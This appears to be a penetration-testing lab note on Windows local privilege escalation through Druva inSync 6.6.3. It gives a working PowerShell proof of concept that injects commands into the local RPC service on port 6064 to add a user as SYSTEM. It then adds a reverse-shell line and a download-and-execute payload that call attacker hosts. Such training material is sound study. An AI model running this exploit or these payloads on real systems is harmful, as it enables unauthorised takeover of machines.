 We may be able to escaleate privileges on well-patched, well-configured systems if users
are permitted to install software or vulnerable third-party applications and services used
by the organization.

#### Enumerating Installed Programs

![[Pasted image 20230107125132.png]]

Most of these apps are standared, but `Druva inSync 6.6.3` stands out. Googling shows this version
is vulnerable to a command injection attack via an exposed RPC service.

https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/

This blogpost details the initial discovery of the flaw.  This application is used for `integrated`
`backup, eDiscovery and compliance monitoring`, and runs as `SYSTEM`. Escalation is possible by
interacting with a service running locally on port 6064.

![[Pasted image 20230107130041.png]]

#### Enumerating Process ID

Double Check:
![[Pasted image 20230107130136.png]]

#### Enumerating Running Service

Triple Check:
![[Pasted image 20230107130229.png]]

## Druva inSync Windows Client LPE Example

Proof of Concept:

```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

#### Modifying the PoC

Open `Invoke-PowerShellTcp.ps1` from our attack host and rename it, open the file
and append the following line at the bottom.

```shell-session
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443
```

Simply modify the $cmd variable in the PoC to download our revshell:
```powershell
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.4:8080/shell.ps1')"
```



